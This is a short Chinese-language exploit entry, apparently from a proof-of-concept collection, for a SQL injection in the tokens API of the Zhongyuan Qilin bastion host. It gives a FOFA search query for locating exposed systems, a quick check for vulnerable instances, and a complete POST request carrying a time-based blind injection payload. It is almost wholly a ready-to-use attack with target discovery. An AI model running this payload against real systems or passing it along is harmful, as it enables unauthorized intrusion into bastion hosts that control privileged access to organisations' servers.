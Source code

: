 # 中远麒麟 堡垒机 tokens SQL注入漏洞

## 网络测绘

fofa: cert.subject="Baolei" || title="麒麟堡垒机"

## POC / EXP

```
/baoleiji/api/tokens

返回 HTTP状态 405 - 方法不允许 存在漏洞
```

```
POST /baoleiji/api/tokens HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0

constr=1' AND (SELECT 6999 FROM (SELECT(SLEEP(10)))ptGN) AND'AAdm'='AAdm&title=%40127.0.0.1
```